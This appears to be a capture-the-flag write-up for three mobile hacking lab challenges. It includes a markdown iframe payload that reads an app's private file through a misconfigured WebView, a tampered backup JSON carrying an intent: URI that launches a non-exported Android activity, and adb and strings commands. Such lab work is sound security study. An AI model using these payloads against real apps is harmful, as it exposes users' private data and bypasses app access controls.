






# Android
## Parse & Pwn



Reversing the apk with `jadx-gui` we only find a single activity

```xml
<activity
    android:theme="@style/Theme.MarkdownPreviewer"
    android:label="@string/app_name"
    android:name="com.mobilehackinglab.markdownpreviewer.MainActivity"
    android:exported="true">
    <intent-filter>
        <action android:name="android.intent.action.MAIN"/>
        <category android:name="android.intent.category.LAUNCHER"/>
    </intent-filter>
</activity>
```

In the `MainActivity` we can see the flag is loaded at `/data/data/com.mobilehackinglab.markdownpreviewer/files/flag.txt` when `onCreate` method is called.

```java
private final void ensureFlagFile() {
    File file = new File(getFilesDir(), "flag.txt");
    if (file.exists()) {
        return;
    }
    FilesKt.writeText$default(file, "dummy", null, 2, null);
}
```

Looking in `MainActivity.kt` we have `markdownToHtml` method which has the following issue.

* `escapeHtml(false)` → raw HTML is NOT escaped
* `sanitizeUrls(false)` → dangerous URLs, including `file://`, are NOT blocked
* The CommonMark parser passes embedded HTML (e.g., `<iframe>, , <script>`) directly into final output

```java
public static final String markdownToHtml(String str) {
    return "<html><head><meta name=\"viewport\" content=\"width=device-width, initial-scale=1\"/><style>html,body{overflow-x:hidden;} body{font-family:sans-serif;padding:16px;} pre,code{white-space:pre-wrap;word-break:break-word;} *{max-width:100%;}</style></head><body>" + HtmlRenderer.builder().escapeHtml(false).sanitizeUrls(false).build().render(Parser.builder().build().parse(str)) + "</body></html>";
}
```

Looking at the WebView configuration we find some issues:

* `setAllowFileAccess(true)`	WebView can load `file://` URIs, including internal app files
* `shouldOverrideUrlLoading` → false	WebView will follow any URL, including `file:///data/`
* `JavaScriptEnabled(true)`	Increases attack surface (though not required for this exploit)

```java
public static final WebView WebViewContainer$lambda$14$lambda$13(Context context, MutableState mutableState, Context it) {
    Intrinsics.checkNotNullParameter(it, "it");
    WebView webView = new WebView(context);
    webView.getSettings().setJavaScriptEnabled(true);
    webView.getSettings().setAllowFileAccess(true);
    webView.getSettings().setLoadWithOverviewMode(true);
    webView.getSettings().setUseWideViewPort(true);
    webView.setHorizontalScrollBarEnabled(false);
    webView.setWebViewClient(new WebViewClient() { // from class: com.mobilehackinglab.markdownpreviewer.MainActivityKt$WebViewContainer$1$1$1$1
        @Override // android.webkit.WebViewClient
        public boolean shouldOverrideUrlLoading(WebView view, WebResourceRequest request) {
            return false;
        }
    });
    mutableState.setValue(webView);
    return webView;
}
```
The WebView is effectively configured as a full HTML renderer with local file read access. We craft a malicious markdown file.

```xml
<iframe src="file:///data/data/com.mobilehackinglab.markdownpreviewer/files/flag.txt"
        width="100%" height="500">
</iframe>
```

after crafting `exploit.md` we push it into the device

```bash
adb push exploit.md /sdcard/Download/
exploit.md: 1 file pushed, 0 skipped. 0.5 MB/s (131 bytes in 0.000s)
```

Next we load the file and select our file and we get the flag.window.



The WebView rendered the iframe, retrieving the internal file and displaying the flag text within the preview 

## Tide Lock



Reversing the apk we find several `Activities`.
* `MainActivity`.
* `LockerActivity`
* `CreateMasterPasswordActivity`
* `FlagActivity`
* `EditPasswordActivity`

```xml
<activity
	android:name="com.mobilehackinglab.yay.tidelock.MainActivity"
	android:exported="true">
	<intent-filter>
		<action android:name="android.intent.action.MAIN"/>
		<category android:name="android.intent.category.LAUNCHER"/>
	</intent-filter>
</activity>
<activity
	android:name="com.mobilehackinglab.yay.tidelock.LockerActivity"
	android:exported="false"/>
<activity
	android:name="com.mobilehackinglab.yay.tidelock.CreateMasterPasswordActivity"
	android:exported="false"/>
<activity
	android:name="com.mobilehackinglab.yay.tidelock.FlagActivity"
	android:exported="false"/>
<activity
	android:name="com.mobilehackinglab.yay.tidelock.EditPasswordActivity"
	android:exported="false"/>
```

The app allows us to create a password and login. The app also offers a backup feature, which exports all entries to external storage in a readable JSON file in `PasswordRepository`. The backup file is written to external storage, which is:

* readable by the user,
* modifiable by the user,
* and modifiable by any app with storage access.

There is no integrity protection, no signatures, and no encryption on the backup.

```java
public final boolean yaybackupentriesyay() {
	String json = this.yaygsonyay.toJson(yayloadentriesyay());
	File file = new File(this.yaycontextyay.getExternalFilesDir(null), this.yaybackupfileyay);
	if (file.exists()) {
		file.delete();
	}
	try {
		Intrinsics.checkNotNull(json);
		FilesKt.writeText$default(file, json, null, 2, null);
		return true;
	} catch (Exception e) {
		e.printStackTrace();
		return false;
	}
}
```

This means the restored data is simply trusted

```java
public final boolean yayrestoreentriesyay() {
	File file = new File(this.yaycontextyay.getExternalFilesDir(null), this.yaybackupfileyay);
	if (!file.exists()) {
		return false;
	}
	try {
		Object fromJson = this.yaygsonyay.fromJson(FilesKt.readText$default(file, null, 1, null), new TypeToken<List<? extends PasswordEntry>>() { // from class: com.mobilehackinglab.yay.tidelock.PasswordRepository$yayrestoreentriesyay$yaytypeyay$1
		}.getType());
		Intrinsics.checkNotNullExpressionValue(fromJson, "fromJson(...)");
		yaysaveentriesyay((List) fromJson);
		return true;
	} catch (Exception e) {
		e.printStackTrace();
		return false;
	}
}
```

The manifest contains a private, non-exported activity which we need to open to get a flag. 
> NB: We cannot use Frida since we cannot gain root access in the remote device. If we try patching the apk with objection we will have to unistall the first one which will remove the flag.txt file. So we have to find a way to open `FlagActivity` without any of those options.

```xml
<activity
    android:name="com.mobilehackinglab.yay.tidelock.FlagActivity"
    android:exported="false"/>
```

Marking it as `exported="false"` prevents other apps from launching it directly. However, Android supports the `intent:` URI syntax a schema designed to allow links inside apps to launch internal components. If the app opens user-supplied URLs using `startActivity()`, then any unvalidated link that is restored from backup can be used to trigger internal activities from inside the app itself. This bypasses the exported restriction because the calling UID is the same as the owning app.

Loking at the `PasswordDetailDialogFragment`. We notice the following on `onViewCreated$lambda$7`.

* Get the URL: It retrieves the website URL ,which we injected with the intent: URI, from the `yayentryyay` object.
* Create the Intent: It uses `Intent.parseUri()` with the URL string. Since the string starts with intent:, it successfully creates a malicious Intent targeting FlagActivity.
* Launch the Intent: It calls `startActivity(intent)`, which launches the private activity because the call originates from the app's own UID.

```java
public static final void onViewCreated$lambda$7(final PasswordDetailDialogFragment this$0, View yayviewyay, View view) {
	Intrinsics.checkNotNullParameter(this$0, "this$0");
	Intrinsics.checkNotNullParameter(yayviewyay, "$yayviewyay");
	PasswordEntry passwordEntry = this$0.yayentryyay;
	if (passwordEntry == null) {
		Intrinsics.throwUninitializedPropertyAccessException("yayentryyay");
		passwordEntry = null;
	}
	String url = passwordEntry.getUrl();
	if (StringsKt.startsWith$default(url, NativeUtils.INSTANCE.decodeScheme(new byte[]{67, 68, 94, 79, 68, 94, 16}), false, 2, (Object) null)) {
		try {
			Intent parseUri = Intent.parseUri(url, 1);
			NativeUtils nativeUtils = NativeUtils.INSTANCE;
			Intrinsics.checkNotNull(parseUri);
			nativeUtils.sanitizeIntent(parseUri);
			parseUri.addFlags(268435456);
			yayviewyay.getContext().startActivity(parseUri);
			return;
		} catch (URISyntaxException e) {
			e.printStackTrace();
			Toast.makeText(this$0.getContext(), "Invalid URL", 0).show();
			return;
		}
	}
	if (StringsKt.startsWith$default(url, NativeUtils.INSTANCE.decodeScheme(new byte[]{66, 94, 94, 90, 16, 5, 5}), false, 2, (Object) null) || StringsKt.startsWith$default(url, NativeUtils.INSTANCE.decodeScheme(new byte[]{66, 94, 94, 90, 89, 16, 5, 5}), false, 2, (Object) null)) {
		ExecutorService newSingleThreadExecutor = Executors.newSingleThreadExecutor();
		final Handler handler = new Handler(Looper.getMainLooper());
		newSingleThreadExecutor.execute(new Runnable() { // from class: com.mobilehackinglab.yay.tidelock.PasswordDetailDialogFragment$$ExternalSyntheticLambda0
			@Override // java.lang.Runnable
			public final void run() {
				PasswordDetailDialogFragment.onViewCreated$lambda$7$lambda$6(PasswordDetailDialogFragment.this, handler);
			}
		});
		return;
	}
	Toast.makeText(this$0.getContext(), "Invalid URL", 0).show();
}
```

The backup files are located at.

```bash
shell:/sdcard/Android/data/com.mobilehackinglab.yay.tidelock/files$ cat passwords.json
[{"password":"12121","url":"https://gshas","username":"1212","website":"gmail"},{"password":"binder","url":"https://exploit.com","username":"binder","website":"exploit"}]
```

we pull the file 

```bash
adb pull /sdcard/Android/data/com.mobilehackinglab.yay.tidelock/files/passwords.json .
/sdcard/Android/data/com.mobilehackinglab.yay.tidelock/files/passwords.json: 1 file pulled, 0 skipped. 0.0 MB/s (170 bytes in 0.227s)
```

we edit the json file and push it back

```bash
adb push passwords.json /sdcard/Android/data/com.mobilehackinglab.yay.tidelock/files/
passwords.json: 1 file pushed, 0 skipped. 0.9 MB/s (229 bytes in 0.000s)
```

we confirm the file

```bash
shell:/sdcard/Android/data/com.mobilehackinglab.yay.tidelock/files$ cat passwords.json 
[{"password":"12121","url":"https://gshas","username":"1212","website":"gmail"},{"password":"binder","url": "intent:#Intent;component=com.mobilehackinglab.yay.tidelock/.FlagActivity;end","username":"binder","website":"exploit"}]
```

This is the list of our data now.


This is triggered when we click fetch favicon.



Finally the activity is launched with the flag



# iOS
## Link Liar



We unzip the `ipa` file as usual

```bash
unzip Linkliar.ipa
```

We check the `Info.xml`. to see is there is anything interesting but none

```xml
cat Info.xml 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
	<key>BuildMachineOSBuild</key>
	<string>25A362</string>
	<key>CFBundleDevelopmentRegion</key>
	<string>en</string>
	<key>CFBundleDisplayName</key>
	<string>Linkliar</string>
	<key>CFBundleExecutable</key>
	<string>Linkliar</string>
	<key>CFBundleIcons</key>

	...

	</array>
	<key>UISupportedInterfaceOrientations~iphone</key>
	<array>
		<string>UIInterfaceOrientationPortrait</string>
		<string>UIInterfaceOrientationLandscapeLeft</string>
		<string>UIInterfaceOrientationLandscapeRight</string>
	</array>
</dict>
</plist>
```

Next we try to grep for the flag format and boom there we go. We get the flag

```bash
strings Linkliar | grep -i "MHL" -A 5
MHL{h34d3r_
s0_l0ng_th4
t_1t_0v3rfl0ws}
%s%s%s
POST
application/json
```